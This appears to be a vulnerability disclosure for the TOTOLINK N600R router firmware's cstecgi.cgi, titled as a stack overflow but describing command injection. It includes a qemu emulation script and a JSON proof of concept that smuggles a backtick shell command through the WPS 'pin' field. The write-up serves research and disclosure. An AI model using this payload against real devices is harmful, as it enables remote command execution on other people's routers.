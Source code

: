 ﻿# TOTOLINK_N600R_V4.3.0cu.7866_B20220506-stack overflow

## File information

[](https://github.com/Luanruy/qax#file-information)

TOTOLINK_N600R_V4.3.0cu.7866_B20220506.web Unzipped cstecgi.cgi Download address:  [https://totolink.tw/support_view/N600R](https://totolink.tw/support_view/N600R)

## injection point 0x41caac

There is an injection attack vulnerability in the function FUN_0041c824.
The code disassembled by ghidra is shown in the figure below:

![enter image description here](https://i.miji.bid/2025/05/07/456dd04d343e04d87e7fde1fc2a4b66b.png)

### Simulate running in qemu
```bash
#!/bin/bash
sudo  chroot  ./  ./qemu-mips-static\
-E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
./web_cste/cgi-bin/cstecgi_41c8dc.cgi  <  ./poke/41caac_poc.json
```
### json
```json
{

	"topicurl" : "UploadCustomModule/setWiFiWpsConfig",
	"wifiIdx" : "1",
	"wscMode" : "1",
	"wscPinMode" : "1",
	"pin" : "11111111111111111111`ls>41caac.txt`ll"
}
```

### Operation Results
When running to the system instruction in gdb, it is found that the executed string contains the injected command.
After execution, you can see that the corresponding file is generated in the corresponding folder.
![enter image description here](https://i.miji.bid/2025/05/07/bb335c1b28c2205899b0380cc1fcce4a.png)

![enter image description here](https://i.miji.bid/2025/05/07/c33057517510f69f307285847bccec91.png)


